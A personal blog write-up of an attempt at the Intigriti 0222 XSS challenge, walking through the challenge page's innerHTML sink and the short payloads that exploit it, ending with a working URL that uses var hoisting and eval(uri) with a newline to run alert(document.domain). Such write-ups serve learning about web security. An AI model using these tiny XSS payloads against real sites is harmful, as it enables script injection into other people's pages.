 ```yaml
---
title: "Intigriti 0222 XSS Challenge Attempt"
date: 2022-02-19T10:59:07-08:00
slug: intigriti-0222-challenge-attempt
description: My attempt to solve the intigriti 0222 xss challenge
image: images/0222-challenge/og.png
tags:
  - javascript
  - xss
  - intigriti
---
```


## Intro

Intigriti is a hacking and bug bounty platform. They host a monthly XSS challenge. They are really fun and interesting for someone like me. 

TL;DR, I did not complete this month's challenge. 😭


See

* Challenge: https://challenge-0222.intigriti.io/challenge/xss.html
* Intigriti explanation: https://www.youtube.com/watch?v=P1bFG2qMxec


## My attempt

Even though I did not complete the challenge, I thought I would document what my thought process were and what I've learned. 

### Challenge 

The page has a form with a name input and a toggle. The instruction says the name cannot be empty nor can it be longer than 24 characters.
Let's try it. Enting the name will trigger a dialog popup with the name from the input field. 

 |
:-------------------------:|:-------------------------:
![](form.png)  |  ![](popup.png)


First thing I noticed is that the uri changed with `q` and `first` query parameters. It seems like I can manipulate these parameter to cause a XSS attack. Let's see how the parameters are appended. Looking at the source code we can see that it is set directly to the `window.location.search` property. The value is uri encoded.

```js
 window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
    }

    if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}
```

When the page is loaded, what happens to the query parameters?

```js
function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
}

// onsubmit code...

if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
    showModal('Welcome back!', qs)
    }
}
```

First thing I noticed is the `innerHTML` assignment. The `innerHTML` gets or sets the HTML content within the element. It is not uncommon to use `innerHTML` to set the content. This leaves vulnerability valunerbility to XSS attackers. Let's try it

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=<script>alert()</script>&first=yes
```

Nothing happens? Why? Because HTML5 specifies that a `<script>` tag inserted with `innerHTML` should not execute. [See MDN\' security consideration](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations).

But even in the section, it says it does not prevent all the attacks. The most common one is to use `img` with `onerror` field.

```
<img src=# onerror=alert(1) />
```

But this exceeds the character limit. 🤔. This is where I was stuck. I looked up some small xss methods and eventually found the `onload` property in `style` tag. 

```
<style onload=alert(1)>
```

{{<figure src="alert.png" alt="A screenshot of the alert(1)" width="50%" >}}

Yay, I got an alert popup. But this is not the objective of the challenge. I need to get `alert(document.domain)`. I spent a couple more days on this challenge and could not find the answers.I tried to see if there is a way maybe I can use a tiny url to load some bad script. But no way I can pass below the 24 characters limit.


## Answer

1 week passed by and Integriti posted their answers. I was really curious on how they by-passed the 24 characters limit. Go watch the video solution because they can explain way better than I did.

### Solution

The method they by pass is to use one of the tiny xss payload [from this github repo](https://github.com/terjanq/Tiny-XSS-Payloads).

Alright, the answer is to use `eval` to execute some js statements, which causes a XSS attack.

```
<style/onload=eval(name)>
```

But what variable do we control in the `showModal` function? Everything is either passed in as arguments, or the `name` in the `window` global object.

### The simple trick 

The key is `var` 🤦‍♀️. Once I saw the solution, it dawn upon me!! `var` variables hoist up in the scope. Since the scope is the window itself, it is accessible in any function!

See more about [\`var\` hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting#var_hoisting).


So we can access the `uri` variable defined in the `if` block.
```
<style/onload=eval(uri)>
```

### More

But this is not the using above payload, you will see an error. `Uncaught SyntaxError: expected expression, got end of script`. Because the uri content is not actually anything of JavaScript statement.

To complete the challenge, we need to get some valid js statement into the `eval` parameter. We can try terminating the previous statement with `;` and have valid syntax afterwards. 

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&;alert(document.domain)`

This didn't work. But `eval` also works with multiline js statements. Let's try that. What is the new line character in encoded URI format: `%0A`.

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&%0Aalert(document.domain)`

{{<figure src="complete.png" alt="XSS successful" width="50%" >}}

## Thoughts

I think this challenge is awesome. It combines a couple simple JavaScript quirkiness to create a surprising bypass. The variable hoisting and the `eval` keyword. 2 things I already knew but did not think of during the challenge. Looking forward to March's challenge.

## Things I learned

* `innerHTML` does not execute `script` tag
* [This awesome tiny xss payload repo](https://github.com/terjanq/Tiny-XSS-Payloads)
* `/` act as spaces in HTML tags. Very cool
